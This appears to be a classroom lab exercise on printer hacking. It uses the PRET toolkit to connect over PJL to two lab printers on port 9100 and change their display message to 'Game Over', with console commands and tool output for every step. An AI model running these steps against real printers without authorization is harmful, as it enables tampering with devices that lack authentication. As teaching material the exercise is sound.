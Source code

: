 ## Printer Hacking

### Requirement

In this exercise, we will change the display message on a printer. The only reason this attack works is because there is a lack of authentication in most printers.

### Background

Why printer hacking: read this article first:
https://www.theverge.com/2018/11/30/18119576/pewdiepie-printer-hack-t-series-youtube

### Setup

One VM only.

### Steps

Pret stands for PRinter Exploitation Toolkit.

1. get the source code from github:

```console
git clone https://github.com/RUB-NDS/PRET
```

2. go inside the PRET directory:

```console
cd PRET
```

3. install necessary modules:

```console
sudo pip install colorama pysnmp
```

4. select a targeted printer (IP: either 10.29.2.31, or 10.29.2.45), test if the printer has port 9100 open: 

```console
telnet printerIP 9100 (You will see "Connection refused" if not open)
```

5. Now that you are in the PRET directory, run the script to establish a connection between you and the printer:

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.31 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.31 established
Device:   HP LaserJet M606

Welcome to the pret shell. Type help or ? to list commands.
10.29.2.31:/> 
```

Or the other printer:

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.45 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.45 established
Device:   Receiving data failed (watchdog timeout)
                        
Welcome to the pret shell. Type help or ? to list commands.
10.29.2.45:/> 
```

6. Change the display message: 

```console
10.29.2.31:/> display Game Over
Setting printer's display message to "Game Over"
```

```console
10.29.2.45:/> display Game Over
Setting printer's display message to "Game Over"
```

This will change the printer display message to "Game Over...".

7. You can then type quit to exit:

```console
10.29.2.31:/> quit
```

or

```console
10.29.2.45:/> quit
```
